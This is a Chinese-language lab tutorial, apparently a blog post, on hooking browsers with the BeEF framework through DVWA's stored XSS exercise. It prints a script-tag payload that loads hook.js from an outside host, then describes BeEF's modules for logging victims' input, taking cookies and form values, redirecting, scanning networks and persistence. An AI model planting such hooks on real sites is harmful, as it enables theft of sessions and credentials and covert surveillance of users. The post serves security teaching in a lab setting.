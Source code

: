 其中`http://192.168.2.131:3000/hook.js`就是我们要用到的。

这里我们以DVWA之存储型xss做演示吧。

在修改浏览器前端限制输入长度后，插入
`<script src="http://192.168.2.131:3000/hook.js"></script>`

![UoozWQ.png](https://s1.ax1x.com/2020/07/21/UoozWQ.png)

成功插入，然后我再用我kali去访问一下，

![UoO7h6.png](https://s1.ax1x.com/2020/07/21/UoO7h6.png)

可以发现在线浏览器多了两个，一个是win10我刚刚插入时上去的，另一个是我的kali浏览了中招的。

我们可以点击进行相关操作。

![UoXpNt.png](https://s1.ax1x.com/2020/07/21/UoXpNt.png)

   点击当前在线的主机，然后右边会有选择框（弹框如上），我们点击 Current Browser ，然后下面就有一些功能项：Details、Logs、Commands、XssRays、Network、WebRTC

* Details是浏览器信息详情
* Logs能记录你在浏览器上的操作，点击，输入操作都能记录
* Commands是你能对该浏览器进行哪些操作

#### Logs

记录了被攻击者在植入脚本的页面进行的操作，如：点击鼠标、输入内容。

#### Commands

点击Command，这里有一些我们可以使用的功能分类，一共有12个大的功能，括号里面的是每个功能分类里面的个数。


![UoXj2T.png](https://s1.ax1x.com/2020/07/21/UoXj2T.png)

```
Broser：主要是针对浏览器的一些信息收集或攻击，其下的子选项卡Hooked Domain主要是获取HTTP属性值，比如cookie、表单值等，还可以做写简单的浏览器操作，比如替换href值，弹出警告框，重定向浏览器等。这个选项卡下的有些模块会根据受害者的浏览器来决定是否显示。主要是浏览器通用操作和其他基本信息检测。

Chrome extensions：主要是针对谷歌浏览器扩展插件

Debug：调试功能

Exploits：漏洞利用，主要利用一些已公开的漏洞进行攻击测试

Host：针对主机，比如检测主机的浏览器、系统信息、IP地址、安装软件等等

IPEC：协议间通信。主要是用来连接、控制受害者浏览器的

Metasploit：Beef可通过配置和metasploit平台联合，一旦有受害者出现，可通过信息收集确定是否存在漏洞，进一步方便metasploit攻击测试

Misc：杂项。

Network：网络扫描

Persistence：维护受害者访问

Phonegap：手机测试

Social engineering：社会工程学攻击

```
